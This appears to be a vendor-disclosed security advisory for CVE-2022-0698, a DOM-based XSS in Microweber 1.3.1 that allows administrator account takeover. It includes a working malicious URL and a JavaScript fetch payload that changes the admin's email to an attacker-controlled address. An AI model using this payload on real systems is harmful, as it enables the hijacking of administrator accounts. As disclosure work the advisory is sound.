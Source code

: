 ```yaml
---
slug: advisories/garrix/
title: Microweber 1.3.1  -  DOM XSS to Account Takeover
authors: Carlos Bello
writer: cbello
codename: garrix
product: Microweber 1.3.1
date: 2022-11-29 10:00 COT
cveid: CVE-2022-0698
severity: 8.8
description: Microweber 1.3.1  -  DOM XSS to Account Takeover - DOM-Based cross-site scripting (XSS)
keywords: Fluid Attacks, Security, Vulnerabilities, Microweber, XSS
banner: advisories-bg
advise: yes
template: advisory
---
```


## Summary

|                       |                                                        |
| --------------------- | -------------------------------------------------------|
| **Name**              | Microweber 1.3.1  -  DOM XSS to Account Takeover       |
| **Code name**         | [Garrix](https://en.wikipedia.org/wiki/Martin_Garrix)  |
| **Product**           | Microweber                                             |
| **Affected versions** | Version 1.3.1                                          |
| **State**             | Public                                                 |
| **Release date**      | 2022-11-29                                             |

## Vulnerability

|                       |                                                                                                        |
| --------------------- | ------------------------------------------------------------------------------------------------------ |
| **Kind**              | DOM-Based cross-site scripting (XSS)                                                                   |
| **Rule**              | [371. DOM-Based cross-site scripting (XSS)](https://docs.fluidattacks.com/criteria/vulnerabilities/371)|
| **Remote**            | Yes                                                                                                    |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:R/S:U/C:H/I:H/A:H                                                           |
| **CVSSv3 Base Score** | 8.8                                                                                                    |
| **Exploit available** | Yes                                                                                                    |
| **CVE ID(s)**         | [CVE-2022-0698](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-0698)                          |

## Description

Microweber version 1.3.1 allows an unauthenticated user to perform an
account takeover via an XSS on the 'select-file' parameter. The following
is an example of a vulnerable URL:

* http://example.com/admin/view:modules/load_module:files#select-file=http://example.com/userfiles/media/default/ovaa-checklist.txt.

## Vulnerability

The XSS present in Microweber 1.3.1 allows an unauthenticated remote
attacker to perform an Account Takeover. To trigger this vulnerability,
we will need to send the following malicious link to an administrator in
order to hack their account. The following is an example of a malicious URL:

* http://example.com/admin/view:modules/load_module:files#select-file=http://example.com/userfiles/media/default/ovaa-checklist.php%22onload%3d%22javascript:PAYLOAD%22+///.txt

In the **PAYLOAD** field we will put the following malicious JS code:

```js
fetch('http://example.com/api/user/1',{
    method:'POST',
    credentials:'include',
    headers:{
        'Content-type':'application/x-www-form-urlencoded;charset%3dUTF-8'
    },
    body:'id%3d1%26_method%3dPATCH%26username%3dadmin%26email%3dattacker%40fluidattacks.com%26phone%3d\r\n'
})
```

## Exploitation

To exploit this vulnerability, a malicious URL must be sent to the
administrator of the Microweber instance. Once the administrator enters
the link, we will change the email address associated with their account
to one that is under our control.

![normal](https://user-images.githubusercontent.com/51862990/189453637-86fe4ccc-3d3e-4550-a666-b0c947cbee8d.png)

![AccountTakeover](https://user-images.githubusercontent.com/51862990/189451927-3841b94f-9a1c-4c10-b286-6b493a565d36.gif)

![hacked](https://user-images.githubusercontent.com/51862990/189453661-bba7b314-dfdd-4a91-887a-a78b51c112bf.png)

## Our security policy

We have reserved the CVE-2022-0698 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: Microweber 1.3.1

* Operating System: GNU/Linux

* Web Server: Apache

* PHP Version: 8.1.9

* Database and version: MySQL

## Mitigation

An updated version of Microweber is available at the vendor page.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello)
from Fluid Attacks' Offensive Team.

## References

**Vendor page** <https://github.com/microweber/microweber>

## Timeline

<time-lapse
  discovered="2022-09-05"
  contacted="2022-09-05"
  replied="2022-09-19"
  confirmed="2022-09-19"
  patched="2022-09-19"
  disclosure="2022-11-29">
</time-lapse>
